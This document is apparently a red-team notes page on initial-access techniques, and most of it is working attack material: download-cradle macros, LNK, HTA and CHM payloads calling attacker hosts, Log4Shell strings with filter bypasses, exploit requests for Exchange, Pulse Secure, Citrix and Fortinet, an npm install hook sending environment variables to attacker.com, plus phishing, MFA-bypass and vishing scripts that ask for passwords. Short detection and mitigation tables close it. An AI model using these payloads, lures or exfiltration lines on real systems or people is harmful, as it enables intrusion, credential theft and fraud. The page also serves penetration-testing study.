


# Initial Access

> **Initial access is the first phase of an attack where an adversary gains their first foothold inside a target environment — typically via phishing, exploiting a public-facing service, or using stolen credentials.**

---

## 🧠 What Is It?

Think of initial access as picking the lock on the front door. Before an attacker can steal anything, pivot to other systems, or cause damage, they need a way *in*. That first entry point — whether it's a malicious email that tricks an employee, a vulnerability in your VPN appliance, or credentials bought on a dark web forum — is called initial access.

MITRE ATT&CK Tactic: **TA0001 — Initial Access**

Initial access vectors broadly fall into:
1. **Human exploitation** (phishing, vishing, smishing)
2. **Technology exploitation** (unpatched CVEs in internet-facing services)
3. **Credential abuse** (stuffing, breached creds, default passwords)
4. **Supply chain abuse** (compromising a trusted third party)

---

## 🏗️ How It Works

### Attack Flow Overview



---

## 📊 Diagram — Spear-Phishing Attack Chain



---

## ⚙️ Technical Details

### T1566 — Phishing

#### Spear-Phishing Email (T1566.001)

**Spear-phishing** is targeted phishing using personalised content. Unlike bulk phishing, it uses OSINT to make the lure believable.

**Key Components of an Effective Lure:**

| Component | Description | Example |
|---|---|---|
| **Sender address** | Looks legitimate | hr@targetcorp-onboarding.com |
| **Subject** | Urgency / relevance | "Action Required: Updated Benefits 2024" |
| **Body** | References real people/projects | "Hi Sarah, as discussed with your manager Tom..." |
| **Attachment** | Weaponised document | Q4_Bonus_Policy.docm |
| **Pretext** | Story justifying action | HR policy change, IT security audit |

**Infrastructure Requirements:**
- Lookalike domain (e.g., `corp0ration.com` for `corporation.com`)
- Valid SSL/TLS certificate (Let's Encrypt)
- SPF, DKIM, DMARC configured for the sending domain
- Aged domain (>30 days to pass reputation checks)
- Categorised domain (use Cloudflare, bluecoat etc. to check)

**SPF/DKIM Setup for Phishing Domain:**
```bash
# SPF record (in DNS TXT for targetcorp-helpdesk.com)
v=spf1 ip4:203.0.113.50 -all

# Generate DKIM keypair
opendkim-genkey -t -s mail -d targetcorp-helpdesk.com

# Configure Postfix to sign with DKIM
# /etc/opendkim.conf
Domain    targetcorp-helpdesk.com
KeyFile   /etc/opendkim/keys/targetcorp-helpdesk.com/mail.private
Selector  mail
```

---

#### GoPhish Setup — Complete Guide

```bash
# Install GoPhish
wget https://github.com/gophish/gophish/releases/download/v0.12.1/gophish-v0.12.1-linux-64bit.zip
unzip gophish-v0.12.1-linux-64bit.zip
chmod +x gophish
./gophish
# Default admin: admin / admin at https://127.0.0.1:3333

# Run behind nginx with SSL (recommended)
# /etc/nginx/sites-available/gophish
server {
    listen 443 ssl;
    server_name phish.attackerinfra.com;
    ssl_certificate /etc/letsencrypt/live/phish.attackerinfra.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/phish.attackerinfra.com/privkey.pem;
    location / {
        proxy_pass http://127.0.0.1:3333;
    }
}
```

**GoPhish Campaign Setup:**
1. **Sending Profile**: SMTP server, from address, SMTP credentials
2. **Email Template**: HTML lure with `{{.FirstName}}` placeholders, `{{.URL}}` tracking link
3. **Landing Page**: Clone target's login page with credential capture enabled
4. **User Group**: CSV import of targets (First, Last, Email, Position)
5. **Campaign**: Link all above, set URL, launch

**GoPhish Email Template Example (VBA attachment lure):**
```html
<!DOCTYPE html>
<html>
<body>
<p>Dear {{.FirstName}},</p>
<p>Please review the attached HR policy document before our meeting on Friday.
You will need to <b>Enable Editing</b> and <b>Enable Content</b> to view the 
formatting correctly.</p>
<p>Regards,<br>
Human Resources<br>
{{.From}}</p>
<p><a href="{{.URL}}">Click here if the attachment doesn't open</a></p>
</body>
</html>
```

---

#### Email Spoofing Check Tools

```bash
# Check if domain is spoofable (SPF/DKIM/DMARC)
dig TXT targetcorp.com | grep -E "v=spf|DMARC"
dig TXT _dmarc.targetcorp.com

# Online tools
# https://mxtoolbox.com/spf.aspx
# https://dmarcian.com/dmarc-inspector/

# Test spoofability
python3 -m pip install spoofcheck
python3 spoofcheck.py targetcorp.com
```

---

### Vishing (Voice Phishing) — T1566.004

**Pretext Scenario Example: "IT Help Desk" Call**

```
Red Teamer: "Good afternoon, this is Mike from the IT security team. 
We've detected some suspicious login activity on your account from 
an IP in Eastern Europe. I need to verify your identity before we 
can secure it. Can you confirm your employee ID and current password 
so I can check if your account has been compromised?"

[Or more subtle]
"We're pushing an urgent Windows update that requires you to log into 
the IT portal. I'll send you a link — just log in with your normal 
credentials and approve the update."
```

**Common Vishing Pretexts:**
- IT Help Desk (password reset, software update)
- HR (payroll update, benefits enrollment)
- CEO/Executive impersonation (urgent wire transfer, GDPR request)
- Vendor / third party (IT support for a product they use)
- Security team (account compromise alert)

**Tools for Caller ID Spoofing:**
- `SpoofCard`, `Twilio` (programmatic spoofing for authorised testing)
- Asterisk PBX with custom CallerID

---

### Smishing (SMS Phishing) — T1566.003

**Sample Template:**
```
[TargetCorp IT] Your VPN certificate expires today. 
Renew immediately: https://targetcorp-vpn.com/renew
Failure to act will result in loss of remote access.
```

**Infrastructure:**
- Twilio for SMS delivery
- Evilginx2 for credential capture with MFA bypass

---

### Malicious Attachments — T1566.001

#### VBA Macro (Office .docm/.xlsm)

**Basic Download Cradle Macro (educational purposes):**
```vba
Sub AutoOpen()
    Dim oShell As Object
    Set oShell = CreateObject("WScript.Shell")
    Dim cmd As String
    ' PowerShell download cradle - fetches and executes in memory
    cmd = "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand " & _
          EncodeCommand("IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.50/stage2.ps1')")
    oShell.Run cmd, 0, False
End Sub

Function EncodeCommand(cmd As String) As String
    Dim bytes() As Byte
    Dim i As Integer
    bytes = StrConv(cmd, vbFromUnicode)
    ReDim encodedBytes(UBound(bytes) * 2 - 1) As Byte
    For i = 0 To UBound(bytes)
        encodedBytes(i * 2) = bytes(i)
        encodedBytes(i * 2 + 1) = 0
    Next i
    EncodeCommand = ConvertToBase64(encodedBytes)
End Function
```

**OPSEC tip**: Use HTTPS, not HTTP. Embed the domain in the macro, not a raw IP.

**Weaponising with macro_pack:**
```bash
pip install macro_pack
# Generate macro payload
echo "IEX(New-Object Net.WebClient).DownloadString('https://c2.attacker.com/s')" | \
  macro_pack -t CMD -o -G malicious.docm
```

**Mshta-based alternative (no macro):**
```vba
Sub AutoOpen()
    Shell "mshta.exe http://203.0.113.50/payload.hta"
End Sub
```

---

#### LNK File (Malicious Shortcut) — T1204.002

LNK files execute arbitrary commands when double-clicked. They're commonly used to replace legitimate shortcuts or delivered in ZIP/ISO files.

```powershell
# Create malicious LNK with PowerShell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:TEMP\Resume_JohnSmith.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\cmd.exe"
$Shortcut.Arguments = '/c powershell.exe -WindowStyle Hidden -EncodedCommand aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwBjADIALgBhAHQAdABhAGMAawBlAHIALgBjAG8AbQAvAHMAJwApAA=='
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,3"  # Looks like Word doc icon
$Shortcut.WindowStyle = 7  # Minimised window
$Shortcut.Save()
```

**lnkbomb — automated LNK creation:**
```bash
python3 lnkbomb.py -t windows -i /path/icon.ico -o output.lnk \
  -c "powershell -enc <base64_payload>"
```

---

#### ISO Files — Bypassing Mark-of-the-Web (MOTW)

Files downloaded from the internet get tagged with **Zone.Identifier** NTFS alternate data stream (MOTW). When you open a ZIP, each extracted file keeps this tag → Office shows "Protected View".

**ISO bypass**: Files inside a mounted ISO do **not** inherit the MOTW tag. This is why attackers deliver payloads in ISO containers.

```bash
# Create ISO with a malicious LNK inside (Linux)
mkdir iso_staging
cp malicious.lnk iso_staging/
cp decoy.pdf iso_staging/  # Real-looking file to distract
mkisofs -o payload.iso -J -r iso_staging/

# Or use tools
# On Windows: PowerISO, AnyToISO
# ImgBurn (free)
```

**Execution flow:**
1. User receives email with `Q4_Report.iso`
2. Windows 10/11 auto-mounts ISO on double-click
3. Explorer shows contents — user sees `Q4_Report.lnk` (PDF icon via custom icon)
4. User double-clicks → LNK runs cmd/PowerShell
5. No MOTW = no "Enable Content" warning

> **Note**: Windows 11 22H2 and later began propagating MOTW into ISOs. Use VHD/VHDX instead in newer environments.

---

#### CHM Files (Compiled HTML Help) — T1218.001

```bash
# Create malicious CHM with Out-CHM (PowerShell)
# First create a .htm file with script
cat > payload.htm << 'EOF'
<html>
<head>
<title>Help</title>
</head>
<body>
<OBJECT id="x" classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" 
        width="1" height="1">
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap::shortcut">
<PARAM name="Item1" value=",cmd.exe,/c powershell.exe -enc <BASE64>">
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body>
</html>
EOF

# Compile to CHM
hhc.exe project.hhp  # Windows HTML Help Workshop
```

---

#### HTA Files (HTML Application) — T1218.005

HTAs run with MSHTA.EXE and execute with elevated trust (full HTML Application runtime, not browser sandbox).

```html
<!-- payload.hta -->
<html>
<head>
<hta:application
   id="oHTA"
   applicationname="Update"
   windowstate="minimize"
   showintaskbar="no"
   border="none"
/>
<script language="VBScript">
Sub Window_OnLoad
    Dim oShell
    Set oShell = CreateObject("Wscript.Shell")
    oShell.Run "cmd.exe /c powershell.exe -WindowStyle Hidden -enc aQBlAHgA...", 0, False
    Close
End Sub
</script>
</head>
<body></body>
</html>
```

**Delivery:**
```bash
# Serve via HTTP
python3 -m http.server 80

# Trigger via mshta
mshta.exe http://203.0.113.50/payload.hta

# Embed in Office macro
Shell "mshta.exe http://attacker.com/payload.hta"
```

---

### Drive-By Downloads — T1189

**Browser exploit delivery:**

```javascript
// Fingerprinting + exploit selection (simplified)
var ua = navigator.userAgent;
var ie_version = /MSIE (\d+)/.exec(ua);

if (ie_version && ie_version[1] <= 11) {
    // Deliver CVE-2020-0674 (IE scripting engine memory corruption)
    loadExploit('ie_exploit.js');
} else if (/Chrome\/[5-7][0-9]/.test(ua)) {
    // Deliver Chrome exploit
    loadExploit('chrome_exploit.js');
} else {
    // Fallback: macro-laden Office document or Java applet
    window.location = 'http://attacker.com/fallback.docm';
}
```

**Exploit Kits (historical but educational):**
- **Angler EK** (2013-2016): Used CVE-2015-0311 (Flash), CVE-2015-0336
- **RIG EK** (still active): CVE-2018-8174 (VBScript), CVE-2016-0189
- **Fallout EK**: CVE-2018-15982 (Flash), CVE-2018-8174

---

### Watering Hole Attacks — T1189

**Methodology:**
1. Profile target organisation employees (LinkedIn, social media)
2. Identify websites the employees frequently visit (industry forums, professional associations, supplier portals)
3. Compromise one of those sites (SQL injection, CMS vulnerability)
4. Inject malicious JavaScript that redirects/exploits only visitors matching the target profile (IP range, user-agent, referrer)

```javascript
// Selective targeting injected into watering hole site
function checkTarget() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://ipinfo.io/json', false);
    xhr.send();
    var data = JSON.parse(xhr.responseText);
    
    // Only execute for targets in specific org's IP range
    if (data.org && data.org.includes("TargetCorp")) {
        // Deliver exploit or redirect to phishing page
        window.location = "https://attacker.com/exploit";
    }
}
checkTarget();
```

---

### External-Facing Service Exploitation — T1190

#### ProxyShell — CVE-2021-34473, CVE-2021-34523, CVE-2021-31207

**CVSS: 9.8 Critical** — Remote code execution on Microsoft Exchange servers without authentication.

**Chain:**
1. **CVE-2021-34473**: Pre-auth path confusion — bypass authentication
2. **CVE-2021-34523**: Privilege elevation in Exchange PowerShell backend
3. **CVE-2021-31207**: Post-auth arbitrary file write

```bash
# ProxyShell scanner
python3 proxyshell.py -u https://mail.targetcorp.com

# Full exploit (place webshell)
python3 proxyshell.py -u https://mail.targetcorp.com -c "whoami"

# One-liner exploit PoC
curl -k "https://mail.targetcorp.com/autodiscover/autodiscover.json?@evil.com/ews/exchange.asmx?&Email=autodiscover/autodiscover.json%3F@evil.com"
```

**Affected versions**: Exchange 2013, 2016, 2019 before July 2021 CU patches.

---

#### ProxyLogon — CVE-2021-26855, CVE-2021-27065

**CVSS: 9.8** — Hafnium APT used this before patch release.

```bash
# Test for CVE-2021-26855 (SSRF)
curl -sk "https://mail.targetcorp.com/ecp/y.js?reqId=xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx" \
  --cookie "X-BEResource=localhost~1942062522/EWS/Exchange.asmx?a=~1942062522"

# PoC tools
git clone https://github.com/hausec/ProxyLogon
python3 proxylogon.py https://mail.targetcorp.com
```

---

#### Pulse Secure VPN — CVE-2019-11510

**CVSS: 10.0** — Pre-auth arbitrary file read → credential theft → RCE.

```bash
# Check vulnerability
curl -ks "https://vpn.targetcorp.com/dana-na/../dana/html5acc/guacamole/../../../../../../../etc/passwd?/dana/html5acc/guacamole/"

# Read VPN credentials file
curl -ks "https://vpn.targetcorp.com/dana-na/../dana/html5acc/guacamole/../../../../../../../data/runtime/mtmp/system?/dana/html5acc/guacamole/"
```

---

#### Citrix ADC/Gateway — CVE-2019-19781

**CVSS: 9.8** — Path traversal → remote code execution, no auth.

```bash
# Check vulnerable endpoint
curl -sk "https://citrix.targetcorp.com/vpn/../vpns/cfg/smb.conf"

# Execute command (if vulnerable)
curl -sk "https://citrix.targetcorp.com/vpn/../vpns/portal/scripts/newbm.pl" \
  --data "url=smb://127.0.0.1/&title=[%25+template.new({'BLOCK'+'=+'print+\`id\`'})+%25]"
```

---

#### Fortinet FortiOS — CVE-2018-13379

**Path traversal reading VPN credentials:**
```bash
curl -k "https://fortigate.targetcorp.com/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession"
```

---

#### Log4Shell — CVE-2021-44228

**CVSS: 10.0** — JNDI injection in Apache Log4j 2.x.

```bash
# Basic test payload (in any user-controlled field)
${jndi:ldap://attacker.com:1389/exploit}

# Common injection points:
# - HTTP headers (User-Agent, X-Forwarded-For, X-Api-Version)
# - Username field
# - Search queries

# Burp Suite / curl test
curl -H 'User-Agent: ${jndi:ldap://attacker.com:1389/a}' https://target.com/

# PoC with marshalsec LDAP server
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://attacker.com:8888/#Exploit"

# Bypass WAF filters
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attacker.com/a}
${jndi:${lower:l}${lower:d}a${lower:p}://attacker.com/a}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker.com/a}
```

---

### Valid Accounts — T1078

#### Credential Stuffing

Using breached username:password pairs against login portals.

```bash
# Tool: Hydra
hydra -L users.txt -P passwords.txt targetcorp.com https-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid credentials" -t 16

# Tool: ffuf for web apps
ffuf -w credentials.txt:FUZZ -u https://targetcorp.com/login \
  -X POST -d "user=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" \
  -mc 302

# Password spraying (avoid lockout — one password per user)
# Tool: Spray (O365/ADFS)
spray.sh -smb 192.168.1.10 -ul users.txt -p 'Summer2024!' -d corp.local

# Tool: ruler (Office 365)
ruler --domain targetcorp.com brute --userpass creds.txt
```

**Breach databases:**
- Have I Been Pwned: https://haveibeenpwned.com/API/v3
- DeHashed: https://dehashed.com
- IntelX: https://intelx.io
- Snusbase, LeakCheck (paid)

```bash
# Query HIBP API
curl "https://haveibeenpwned.com/api/v3/breachedaccount/target@corp.com" \
  -H "hibp-api-key: YOUR_KEY"
```

---

### Supply Chain Compromise — T1195

#### Package Typosquatting

```bash
# Common typosquatting patterns:
# - requests → request, requestes
# - django → djang0, dajngo
# - boto3 → bot03, bota3

# Real cases:
# npm: event-stream (2018) — malicious code injected, targeted bitcoin wallet
# PyPI: colourama (2017) — typosquatted 'colorama', clipboard hijacking
# PyPI: ctx (2022) — legitimate package hijacked

# Check for suspicious packages
pip download <suspicious_package> --no-deps
# Inspect setup.py / __init__.py for eval(), exec(), base64, urllib
grep -r "eval\|exec\|base64\|urllib\|socket" ./package_dir/
```

#### Malicious npm Packages

```javascript
// Typical malicious setup.js pattern:
const { execSync } = require('child_process');
const os = require('os');

// Exfiltrate environment variables on install
if (process.env.CI || process.env.npm_lifecycle_event === 'postinstall') {
    const data = JSON.stringify(process.env);
    execSync(`curl -X POST https://attacker.com/harvest -d '${data}'`);
}
```

---

### APT Initial Access Techniques — Real-World Examples

| APT Group | Primary Initial Access | Notable Techniques |
|---|---|---|
| **APT29 (Cozy Bear)** | T1566.001 Spearphishing | ISO+LNK delivery, Nobelium techniques |
| **APT28 (Fancy Bear)** | T1566 Phishing + T1190 Exploit | Zebrocy malware via email |
| **FIN7** | T1566.001 Spearphishing | DOCM macros, LNK, fake SEC filings |
| **Lazarus Group** | T1566.001 + T1195 Supply Chain | 3CX supply chain (2023) |
| **Scattered Spider** | T1566.004 Vishing + MFA fatigue | Social engineering Okta/Duo helpdesk |
| **REvil (ransomware)** | T1190 Kaseya VSA (CVE-2021-30116) | Supply chain via MSP |
| **Black Basta** | T1566.001 + T1078 Valid Accounts | QBot phishing, remote access tools |

---

## 💥 Exploitation Step-by-Step

### Full Phishing Campaign to Shell

```bash
# STEP 1: OSINT — find targets
theHarvester -d targetcorp.com -b linkedin,google,hunter -l 500 -f output.html
emailfinder -d targetcorp.com  # find email addresses

# STEP 2: Setup infrastructure
# Register lookalike domain
# Point to VPS IP
# Get Let's Encrypt cert
certbot certonly --standalone -d phish.targetcorp-helpdesk.com

# STEP 3: Setup GoPhish
./gophish &
# Configure at https://127.0.0.1:3333

# STEP 4: Generate payload — Sliver implant (see C2 notes)
sliver > generate --http https://c2.attacker.com --os windows --arch amd64 --format exe --save /tmp/update.exe

# STEP 5: Wrap payload in macro document
msfvenom -p windows/x64/exec CMD="powershell -enc <base64>" -f raw | \
  python3 create_macro_doc.py --output Invoice_March.docm

# STEP 6: Launch campaign and monitor callbacks
# GoPhish dashboard shows opens, clicks, submitted credentials
# C2 server shows incoming beacon connections
```

### Exploiting ProxyShell for Shell Access

```bash
# STEP 1: Identify Exchange version
curl -sk https://mail.targetcorp.com/owa/ | grep -i 'X-OWA-Version'

# STEP 2: Confirm vulnerability
python3 proxyshell_check.py --url https://mail.targetcorp.com

# STEP 3: Exploit — write webshell
python3 proxyshell.py -u https://mail.targetcorp.com \
  --path "/owa/auth/errorFE.aspx" \
  --shell cmd

# STEP 4: Execute via webshell
curl -sk "https://mail.targetcorp.com/owa/auth/errorFE.aspx" \
  -d "cmd=whoami"

# STEP 5: Upload Sliver/CS beacon
curl -sk "https://mail.targetcorp.com/owa/auth/errorFE.aspx" \
  -d "cmd=certutil+-urlcache+-f+http://attacker.com/beacon.exe+C:\\Windows\\Temp\\svc.exe"
```

---

## 🛠️ Tools

| Tool | Purpose | Command Example |
|---|---|---|
| **GoPhish** | Phishing campaigns | `./gophish` |
| **Evilginx2** | MiTM phishing (MFA bypass) | `evilginx2 -p phishlets/` |
| **theHarvester** | OSINT email gathering | `theHarvester -d corp.com -b all` |
| **macro_pack** | Office macro weaponisation | `macro_pack -t CMD -G doc.docm` |
| **msfvenom** | Payload generation | `msfvenom -p windows/x64/meterpreter/reverse_https` |
| **Sliver** | C2 implant generation | `generate --http https://c2.attacker.com` |
| **Ruler** | Exchange/O365 attacks | `ruler --domain corp.com brute` |
| **Swaks** | SMTP test / spoofed email | `swaks --to victim@corp.com --from ceo@corp.com --server mail.corp.com` |
| **spoofcheck** | Check if domain spoofable | `python3 spoofcheck.py corp.com` |
| **EmailFinder** | Email OSINT | `emailfinder -d corp.com` |

### Evilginx2 — MFA Bypass Phishing

```bash
# Install
go install github.com/kgretzky/evilginx2@latest

# Setup
evilginx2 -p phishlets/ -t templates/

# Inside evilginx2 shell
: config domain phish.attacker.com
: config ip 203.0.113.50
: phishlets hostname o365 phish.attacker.com
: phishlets enable o365
: lures create o365
: lures get-url 0
# Share URL to victim — captures session cookies + credentials after MFA
```

---

## 🔍 Detection

| Technique | Detection Method | Log/Data Source |
|---|---|---|
| Phishing email | Attachment sandbox, DMARC analysis | Email gateway, O365 Defender |
| Malicious macro | AMSI alerts, VBA execution | Windows Defender, EDR |
| LNK execution | cmd.exe spawned from Explorer | Sysmon Event ID 1 |
| ISO mount | Volume mount events | Windows Security |
| ProxyShell | WebShell creation in Exchange dirs | File integrity monitoring |
| Log4Shell | JNDI pattern in logs | WAF, SIEM log search |
| Credential stuffing | High login failures, success from new IP | Azure AD / Okta logs |
| Evilginx MiTM | Session from unusual location/ASN | Conditional Access alerts |

---

## 🛡️ Mitigation

| Control | Addresses |
|---|---|
| **Email security gateway** (Proofpoint, Mimecast) | Phishing, malicious attachments |
| **Disable macros by default** (GPO: Block All Macros) | VBA macro exploitation |
| **MOTW enforcement** + Attack Surface Reduction rules | ISO/LNK delivery |
| **Patch external-facing services** within 24-48hrs of CVE | ProxyShell, Log4Shell, VPN CVEs |
| **MFA on all remote access** (VPN, OWA, O365) | Credential stuffing |
| **FIDO2/phishing-resistant MFA** (hardware keys) | Evilginx MiTM bypass |
| **Conditional access policies** (block legacy auth) | Auth bypass techniques |
| **WAF with signature updates** | Web exploitation |
| **Network egress filtering** | Beacon C2 callback |
| **Password spray detection** (lockout after N failures) | Password spraying |
| **Software composition analysis (SCA)** | Supply chain package attacks |

---

## 📚 References

- MITRE ATT&CK Initial Access: https://attack.mitre.org/tactics/TA0001/
- ProxyShell PoC: https://github.com/dmaasland/proxyshell-poc
- CVE-2021-44228 (Log4Shell): https://nvd.nist.gov/vuln/detail/CVE-2021-44228
- CVE-2021-34473 (ProxyShell): https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34473
- GoPhish Documentation: https://docs.getgophish.com
- Evilginx2: https://github.com/kgretzky/evilginx2
- Have I Been Pwned API: https://haveibeenpwned.com/API/v3
- LOLBAS Project: https://lolbas-project.github.io
- PhishTank: https://www.phishtank.com
- Red Team Village - Phishing: https://redteamvillage.io
